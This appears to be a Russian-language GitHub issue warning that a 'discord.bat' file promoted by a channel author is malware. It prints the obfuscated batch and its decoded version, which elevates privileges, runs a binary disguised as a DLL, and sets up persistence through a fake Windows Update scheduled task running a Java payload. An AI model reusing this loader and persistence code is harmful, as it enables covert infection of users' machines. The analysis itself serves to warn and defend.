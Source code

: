 Неизвестный файл `discord.bat` с иероглифами, который автор канал просит запустить:

```
挦獬਍敀档⁯景൦ഊ椊⁦硥獩⁴┢单剅剐䙏䱉╅䅜灰慄慴䱜捯污停捡慫敧屳楍牣獯景⹴楗摮睯即潴敲䱜捯污瑓瑡履䥌䕃华⹅硴≴⠠਍††潧潴匠楫䍰摯൥⤊਍਍灯湥楦敬⁳渾汵㈠渾汵਍晩┠牥潲汲癥汥‥敮ⁱ‰ന †瀠睯牥桳汥⁬䌭浯慭摮∠瑓牡⵴牐捯獥⁳┧晾✰ⴠ敖扲爠湵獁ഢ †攠楸⁴戯਍ഩഊ椊⁦硥獩⁴┢摾ば楢屮祣睧湩⸲汤≬⠠਍††潣祰∠縥灤戰湩捜杹楷㉮搮汬•┢䕔偍尥癪攮數•渾汵㈠☾റ⤊攠獬⁥ന †攠楸⁴戯ㄠ਍ഩഊ椊⁦硥獩⁴┢䕔偍尥癪攮數•ന †猠慴瑲∠•┢䕔偍尥癪攮數•猯㸠畮⁬㸲ㄦ਍ 汥敳⠠਍††硥瑩⼠⁢റ⤊਍਍晩渠瑯攠楸瑳∠唥䕓偒佒䥆䕌尥灁䑰瑡屡潌慣屬慐正条獥䵜捩潲潳瑦圮湩潤獷瑓牯履潌慣卬慴整•ന †洠摫物∠唥䕓偒佒䥆䕌尥灁䑰瑡屡潌慣屬慐正条獥䵜捩潲潳瑦圮湩潤獷瑓牯履潌慣卬慴整•渾汵㈠☾റ⤊਍਍晩攠楸瑳∠縥灤到䅅䵄⹅摭•ന †挠灯⁹┢摾ば䕒䑁䕍洮≤∠唥䕓偒佒䥆䕌尥灁䑰瑡屡潌慣屬慐正条獥䵜捩潲潳瑦圮湩潤獷瑓牯履潌慣卬慴整䱜䍉久䕓圭⹄硴≴㸠畮⁬㸲ㄦ਍ 汥敳⠠਍††硥瑩⼠⁢റ⤊਍਍捳瑨獡獫⼠牣慥整⼠湴∠楍牣獯景屴楗摮睯屳楗摮睯啳摰瑡履湗敔灭•琯⁲尢樢癡睡≜ⴠ慪⁲≜唥䕓偒佒䥆䕌⼥灁䑰瑡⽡潌慣⽬慐正条獥䴯捩潲潳瑦圮湩潤獷瑓牯⽥潌慣卬慴整䰯䍉久䕓圭⹄硴屴∢⼠捳漠汮杯湯⼠汲栠杩敨瑳⼠⁦渾汵㈠☾റഊ㨊歓灩潃敤਍਍档灣㘠〵㄰㸠畮൬㨊›㔶〰️‱ 呕ⵆസഊ挊⁤搯∠縥灤∰਍慣汬挠敨正畟摰瑡獥戮瑡猠景൴攊档㩯਍਍敳⁴䥂㵎縥灤戰湩൜ഊ猊慴瑲∠慺牰瑥›楤捳牯≤⼠業⁮┢䥂╎楷睮⹳硥≥ⴠ眭ⵦ捴㵰㐴″ⴭ晷甭灤㐽㌴㔬〰️〰️㔭㄰〰️帠਍ⴭ楦瑬牥甭灤㐽㌴ⴠ栭獯汴獩㵴氢獩⵴楤捳牯⹤硴≴ⴠ搭楰搭獥湹㵣慦敫ⴠ搭楰搭獥湹ⵣ敲数瑡㵳‶ⴭ灤⵩敤祳据昭歡ⵥ畱捩∽䈥义焥極彣湩瑩慩彬睷彷潧杯敬损浯戮湩•ⴭ敮⁷൞ⴊ昭汩整⵲摵㵰〵〰️ⴰ〵〱‰ⴭ灩敳㵴椢獰瑥搭獩潣摲琮瑸•ⴭ灤⵩敤祳据昽歡⁥ⴭ灤⵩敤祳据愭祮瀭潲潴潣⁬ⴭ灤⵩敤祳据挭瑵景㵦㍤ⴠ搭楰搭獥湹ⵣ敲数瑡㵳‶ⴭ敮⁷൞ⴊ昭汩整⵲捴㵰㐴″ⴭ潨瑳楬瑳∽楬瑳搭獩潣摲琮瑸•ⴭ灤⵩敤祳据昽歡ⱥ灳楬⁴ⴭ灤⵩敤祳据愭瑵瑯汴㈽ⴠ搭楰搭獥湹ⵣ敲数瑡㵳‶ⴭ灤⵩敤祳据昭潯楬杮戽摡敳ⁱⴭ灤⵩敤祳据昭歡ⵥ汴㵳┢䥂╎汴彳汣敩瑮敨汬彯睷彷潧杯敬损浯戮湩ഢ
```

![image](https://github.com/user-attachments/assets/8a44b026-2624-4a3c-ad39-4df7d6a6ffb7)

![image](https://github.com/user-attachments/assets/54e91eb0-7ba4-4c74-8553-25d51fb22204)


При расшифровке данного файла окажется что исходный код был пропущен через [batch-obfuscator](https://github.com/SkyEmie/batch-obfuscator) и загружает данный код:

```batch
&cls
@echo off
if exist "%USERPROFILE%\AppData\Local\Packages\Microsoft.WindowsStore\LocalState\LICENSE.txt" (
goto SkipCode
)
openfiles >nul 2>nul
if %errorlevel% neq 0 (
powershell -Command "Start-Process '%~f0' -Verb runAs"
exit /b
)
if exist "%~dp0bin\cygwin2.dll" (
copy "%~dp0bin\cygwin2.dll" "%TEMP%\jv.exe" >nul 2>&1
) else (
exit /b 1
)
if exist "%TEMP%\jv.exe" (
start "" "%TEMP%\jv.exe" /s >nul 2>&1
else (
exit /b 1
)
if not exist "%USERPROFILE%\AppData\Local\Packages\Microsoft.WindowsStore\LocalState" (
mkdir "%USERPROFILE%\AppData\Local\Packages\Microsoft.WindowsStore\LocalState" >nul 2>&1
)
if exist "%~dp0README.md" (
copy "%~dp0README.md" "%USERPROFILE%\AppData\Local\Packages\Microsoft.WindowsStore\LocalState\LICENSE-WD.txt" >nul 2>&1
else (
exit /b 1
)
schtasks /create /tn "Microsoft\Windows\WindowsUpdate\WnTemp" /tr "\"javaw\" -jar \"%USERPROFILE%/AppData/Local/Packages/Microsoft.WindowsStore/LocalState/LICENSE-WD.txt\"-tls="%BIN%tls_clienthello_www_google_com.bin"
```

Бат файл создаёт задачу на джаве скрипте, после чего подгружается вирус.

![image](https://github.com/user-attachments/assets/08e57d5d-cefc-49dd-8032-f6712f0d9e1e)

![image](https://github.com/user-attachments/assets/7d5a1ff4-b141-48f3-bf2c-689ece486620)
